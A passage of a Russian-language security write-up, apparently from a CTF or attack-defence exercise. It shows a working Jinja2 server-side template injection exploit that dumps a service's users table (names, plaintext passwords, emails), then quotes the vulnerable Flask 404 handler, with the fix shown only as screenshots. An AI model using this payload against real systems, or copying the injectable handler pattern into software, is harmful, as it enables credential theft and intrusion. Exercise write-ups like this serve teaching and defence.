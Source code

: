 ```python
# Затем, получаем данные из таблицы users
data = triggering_ssti(url=url, payload="{% set cursor = " + cursor_payload + " %}" + '{{ cursor.execute("SELECT * FROM users") or "" }}' + "{{ config.__class__.from_envvar.__globals__.__builtins__.__import__('json').dumps(cursor.fetchall(), default=''.__class__) }}")

# Парсим получанные данные
soup = BeautifulSoup(data, "html.parser")
creds_string = soup.find_all("h1")[1].text.strip()[1:-len(" not found!")]

# Выводим наш результат
print(creds_string)
```

```sh
$#> python smc__ssti.py

[[1, "2023-08-12 14:15:04.059874", "Ryan Gosling", "asdfasdf", "RyanGosling@gmail.com"], [2, "2023-08-12 14:38:44.293652", "Jonh Peterson", "qwerty", "JonhPeterson@gmail.com"]]
```

Да, тут стоит отметить, что пользователи новые из-за перезапуска сервиса после внесения исправлений, тем не менее, суть от этого не меняется. Исправляем уязвимость. Все также находим уязвимую часть кода:

```python
# /smc/src/routes.py

@app.errorhandler(404)
def page_not_found(e):
    error_page = open('src/templates/404.html').read().replace('_PATH_', request.path)
    return render_template_string(error_page), 404
```

```html
# /smc/src/templates/404.html

<h1>
	_PATH_ not found!
</h1>
```

Исправленный вариант:

![ScreenShot](screenshots/9.png)

![ScreenShot](screenshots/10.png)
